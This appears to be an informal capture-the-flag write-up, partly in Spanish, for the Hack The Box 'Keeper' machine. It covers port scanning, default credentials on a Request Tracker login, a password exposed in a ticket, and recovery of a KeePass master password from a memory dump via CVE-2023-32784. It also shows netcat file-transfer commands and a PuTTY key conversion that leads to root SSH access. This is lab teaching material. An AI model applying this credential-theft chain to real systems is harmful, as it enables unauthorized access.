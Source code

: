 
This is the result of the scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
On the port 80 I found this

a message:

[To raise an IT support ticket, please visit tickets.keeper.htb/rt/](http://tickets.keeper.htb/rt/)

I put this to the 

This is a loggin
http://tickets.keeper.htb/rt/


And this is the image of the site 

![[Screenshot_2023-09-08_15_18_30.png]]

lets see whatweb and the launchpad of this machine

OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
```
ubuntu jammy
```

nginx 1.18.0-6ubuntu8.2 source package in Ubuntu
```
[Hirsute](https://launchpad.net/ubuntu/hirsute)
```


SO, what is this?
```
Request Tracker (RT) is a ticketing system which
enables a group of people to intelligently and efficiently manage
tasks, issues, and requests submitted by a community of users. It
features web, email, and command-line interfaces (see the package
rt4-clients).
RT manages key tasks such as the identification, prioritization,
assignment, resolution, and notification required by
enterprise-critical applications, including project management, help
desk, NOC ticketing, CRM, and software development.
This package provides the 4 series of RT. It can be installed alongside
the 3.8 series without any problems.
This package provides an external FCGI interface for web servers
including, but not limited to, nginx, and is not needed for web servers
such as Apache which invoke FCGI programs directly.
```


FastCGI es un protocolo para interconectar programas interactivos con un servidor web. FastCGI es una variación de la ya conocida Common Gateway Interface. [Wikipedia](https://es.wikipedia.org/wiki/FastCGI)


whatweb gives me this
```.
http://tickets.keeper.htb/rt [200 OK] Cookies[RT_SID_tickets.keeper.htb.80], Country[RESERVED][ZZ], Email[sales@bestpractical.com], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[RT_SID_tickets.keeper.htb.80], IP[10.10.11.227], PasswordField[pass], Request-Tracker[4.4.4+dfsg-2ubuntu1], Script[text/javascript], Title[Login], X-Frame-Options[DENY], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

Ok , the user is "root" and the password is "password"


maybe i can use this for something.. it is like a token oauth

![[Screenshot_2023-09-08_16_07_43.png]]
user info
```
Real Name Enoch Root

Email Address root@localhost

Name root
```

Another information of a user called

![[Screenshot_2023-09-08_16_12_26.png]]

lnorgaard

a commit:
New user. Initial password set to Welcome2023!

here i have a message when I put user data of Inorgaard


..... what is this ?? 
![[Screenshot_2023-09-08_16_15_14.png]]
```
/User/RelatedData.tsv?Type=User&id=14
```
On the configuration

http://tickets.keeper.htb/rt/Admin/Tools/Configuration.html

there is a loot of code
![[Screenshot_2023-09-08_16_22_54.png]]

here is telling somerhing about the disponible databases

![[Screenshot_2023-09-08_16_28_11.png]]

We have a place where we can put files, and script something, maybe  we can have a reverse shell over here

![[Screenshot_2023-09-08_16_29_44.png]]

Ok, im very stupid, but the way to get inside the machine (via ssh) is with the user;
lnorgaard
password
Welcome2023!


I found this files

KeePassDumpFull.dmp

passcodes.kdbx
  

El archivo DMP está asociado principalmente con el formato de archivo MemoryDump o Minidump. **Se utiliza en el sistema operativo Microsoft Windows para almacenar datos que se han descargado del espacio de memoria de la computadora**. Por lo general, los archivos DMP se crean cuando un archivo falla o se produce un error.


**Los archivos de datos creados por KeePass Password Safe** se conocen como archivos KDBX y por lo general se refieren a la contraseña de base de datos KeePass.


I was trying to get inside of the database but I do not have the password :(
```
mysql -h localhost -u rtuser -p rtdb
```

Now.. this is the data that the files give me 

```
lnorgaard@keeper:~$ file file
file: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
lnorgaard@keeper:~$ file passcodes.kdbx 
passcodes.kdbx: Keepass password database 2.x KDBX
lnorgaard@keeper:~$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type

```

So, the KeePass ...

https://www.hackplayers.com/2023/05/extraccion-de-la-contrasena-maestra-de-keepass.html
Within the compressed archive, I’ve observed the presence of two files, as indicated earlier. The DMG file has been extracted from memory. Upon investigation, I’ve identified the CVE-2023-32784 vulnerability, enabling me to successfully retrieve the master password.

![[Screenshot_2023-09-08_19_55_13.png]]

I send myself the file keepas.dmp

```
Reciver: `nc -l -p 1234 > filename.txt`

Sender: `nc server.com 1234 < filename.txt`
```

When you finish to transfer the files use md5sum and you can see if the file is completely integer 


This are some tools and info aobut KEEPASS

dmp            kdbx

https://github.com/vdohney/keepass-password-dumper

https://github.com/CMEPW/keepass-dump-masterkey



This seems to be the password
[

### Rødgrød med Fløde

](https://www.196flavors.com/es/rodgrod-med-flode/)

![[Screenshot_2023-09-08_20_25_09.png]]

Ok , so if you do not have keepass 2 you must install it keepass2

sudo apt install keepass2..


Now this program ask me for the password that we found recently

rødgrød med fløde

![[Screenshot_2023-09-08_20_37_13.png]]

This are two credentials, one from a user calledd root, and the lnorgaard user.

Now we have the password but it doesn't work when you try to get inside the ssh... but there is another thing .. called PUTTY ...ETC

![[Screenshot_2023-09-08_20_40_59.png]]

what is this ?

https://www.baeldung.com/linux/ssh-key-types-convert-ppk


We need to convert this putty key into a open ssh key.. this is the command to do it

```
puttygen pp_id_rsa.ppk -O private-openssh -o id_rsa
```

I did it :

![[Screenshot_2023-09-08_20_49_47.png]]

Now i need to try to connect via ssh
```
ssh root@targetip -i id_rsa
```

And that is all